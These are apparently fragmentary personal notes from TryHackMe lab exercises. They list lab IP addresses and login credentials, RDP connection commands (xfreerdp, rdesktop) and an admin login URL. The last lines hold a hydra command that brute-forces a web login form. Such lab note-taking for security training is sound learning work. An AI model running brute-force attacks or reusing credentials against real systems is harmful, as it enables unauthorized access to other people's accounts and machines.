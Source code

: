 IP Address: **10.10.49.23**

Username: **cmnatic**

Password: **yararules!**

SSH Port: **22**

`rdesktop -u username -f IP`

xfreerdp
best rdp soffware


xfreerdp /u:Analysis /p:Tryhackme123! /v:10.10.140.138 
Username: Administrator

Password: BHN2UVw0Q
xfreerdp /u:Administrator /p:BHN2UVw0Q /v:10.10.214.145



http://10.10.180.60/Account/login.aspx?ReturnURL=%2fadmin%2f

hydra -l admin -P /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
10.10.214.145/Account/login.aspx http-post-form "/:username=^USER^&password=^PASS^:F=Login failed" -V